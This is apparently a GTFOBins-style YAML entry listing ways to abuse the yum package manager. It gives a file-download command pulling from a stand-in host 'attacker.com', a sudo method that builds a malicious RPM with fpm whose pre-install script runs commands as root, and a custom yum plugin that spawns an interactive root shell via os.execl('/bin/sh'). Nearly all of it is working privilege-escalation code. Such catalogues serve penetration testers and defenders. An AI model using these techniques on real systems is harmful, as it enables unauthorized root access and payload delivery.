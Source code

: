 ```yaml
---
functions:
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
      code: |
        RHOST=attacker.com
        RFILE=file_to_get.rpm
        yum install http://$RHOST/$RFILE
  sudo:
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo yum localinstall -y x-1.0-1.noarch.rpm
    - description: |
        Spawn interactive root shell by loading a custom plugin.
      code: |
        TF=$(mktemp -d)
        cat >$TF/x<<EOF
        [main]
        plugins=1
        pluginpath=$TF
        pluginconfpath=$TF
        EOF

        cat >$TF/y.conf<<EOF
        [main]
        enabled=1
        EOF

        cat >$TF/y.py<<EOF
        import os
        import yum
        from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
        requires_api_version='2.1'
        def init_hook(conduit):
          os.execl('/bin/sh','/bin/sh')
        EOF

        sudo yum -c $TF/x --enableplugin=y
---
```

